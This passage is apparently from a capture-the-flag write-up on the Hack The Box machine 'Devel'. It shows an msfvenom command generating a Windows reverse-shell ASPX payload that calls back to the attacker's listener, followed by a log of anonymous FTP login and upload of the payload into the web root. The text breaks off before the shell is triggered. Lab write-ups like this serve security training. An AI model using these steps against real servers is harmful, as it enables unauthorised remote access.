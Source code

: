 ```
Now, how can we exploit this?? We can go ahead to create a reverse shell and upload it to the ftp server, then we try to execute the reverse shell from the webpage hehe, interesting right?? Lets pop some shells😎




# Exploitation

Lets create our reverse shell

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.14.31 LPORT=4444 -f war > runme.war```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4443 -f aspx -o abeg.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2891 bytes
Saved as: abeg.aspx
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ls
abeg.aspx  Devel  
```
cool, now lets upload this to the ftp server using the ```put``` command.

command:```ftp 10.10.10.5```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ftp 10.10.10.5                                                                                                                                    
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bl4ck4non): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la

229 Entering Extended Passive Mode (|||49179|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
05-15-23  04:53PM                   16 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
ftp> put abeg.aspx
local: abeg.aspx remote: abeg.aspx
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************************************************|  2928       29.70 MiB/s    --:-- ETA
226 Transfer complete.
2928 bytes sent in 00:00 (9.44 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||49181|)
125 Data connection already open; Transfer starting.
05-15-23  05:40PM                 2928 abeg.aspx
03-18-17  02:06AM       <DIR>          aspnet_client